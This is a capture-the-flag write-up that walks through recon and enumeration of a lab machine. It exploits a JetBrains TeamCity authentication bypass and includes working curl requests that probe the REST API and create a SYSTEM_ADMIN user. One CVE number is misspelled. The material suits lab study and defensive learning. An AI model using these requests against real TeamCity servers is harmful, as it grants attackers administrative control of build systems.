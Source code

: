 ```yaml
---
description: The city forgot to close its gate. - by Dex01, strategos and l000g1c
---
```


# Brains

Write up by Amir Lahlou

<div align="right"><figure><img src=".gitbook/assets/image (10).png" alt="" width="188"><figcaption></figcaption></figure></div>

### Recon

```
// nmap scan
nmap -sS -Pn
```

This gave us a few open ports,

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2

```

Upon visiting the link we just get a header that says the site is under maintenance. There wasn't anything in the source code either.

Let's go ahead and try a directory bruteforce then.\


```
// Gobuster Directory Bruteforce

gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40 -o gobuster.txt
```



After the directory bruteforce finished up we don't see anything special so lets take a look at port 50000 from our nmap scan from earlier.

<div align="left"><figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure></div>

### Enumeration

After visiting **`<IP>:50000/login.html`** we find a TeamCity login page running on **Version 2023.11.3 (Build 147512).**&#x20;



<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



With a quick google search we can find **JetBrains TeamCity CVE-2024-271-198 and CVE-2024-27199** on [Rapid7](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/).&#x20;

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-msf"><code class="lang-msf"><strong>curl -ik 'http://10.201.44.80:50000/hax?jsp=/app/rest/server;.jsp'
</strong></code></pre>

<div align="left"><figure><img src=".gitbook/assets/VirtualBoxVM_9imy6r4bRM.png" alt=""><figcaption></figcaption></figure></div>

```
curl -ik http://10.201.44.80:50000/hax?jsp=/app/rest/users\;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"amiru\", \"password\": \"amiru\", \"email\": \"amiru\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
```
